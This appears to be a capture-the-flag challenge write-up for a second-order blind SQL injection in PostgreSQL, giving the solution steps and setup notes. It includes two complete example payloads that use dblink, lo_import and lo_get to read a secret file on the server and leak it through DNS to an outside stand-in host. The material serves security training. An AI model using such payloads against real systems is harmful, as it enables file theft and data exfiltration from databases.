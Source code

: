 **Challenge description:** This challenge is a second-order blind SQLi (only displaying if a SQL syntax error occurs) where participants have to retrieve the flag from an internal file and leak it over DNS by using dblink to establish an outbound connection.  

**Solution description**
1. When opening the web page one of the first things you notice is an error leaking the file /var/lib/postgresql/data/secret which is where the flag is located.
2. Furthermore there are a couple possibilities to interact with the website. One is a disabled input field which maps to the GET parameter user_search
3. If one single quote is added to this GET parameter and then another request is made a warning will show hinting that this field might be vulnerable in the backend (SQL injection is lagging one request).
4. From here the participant can figure out the backend is vulnerable to SQL injection and uses Postgresql.
5. Since SLEEP commands won't work the participant will have to find a way around this (early timeout) which can be done using dblink.
6. Dblink() makes an outbound connection and can thus leak information over DNS, from here the participant can use lo_import() and lo_get() to leak files from the filesystem.
7. If the participant leaks /var/lib/postgresql/data/secret they have found the flag.

Example payloads for user_search
- 1' AND (SELECT a FROM dblink('host='||(SELECT lo_import('/var/lib/postgresql/data/secret'))||'.exdample.com dbname=docker_db user=postgres password=tiger','SELECT 1') AS t1(a text))::text = ''-- 
- 1' AND (SELECT a FROM dblink('host='||(SELECT lo_get(16450,3,10)::text)||'.exdample.com dbname=docker_db user=postgres password=tiger','SELECT 1') AS t1(a text))::text = ''--

**Challenge description:** web
**Setup instructions:** docker-compose up   
**Which files should be distributed:** none
**Estimated difficulty:** medium
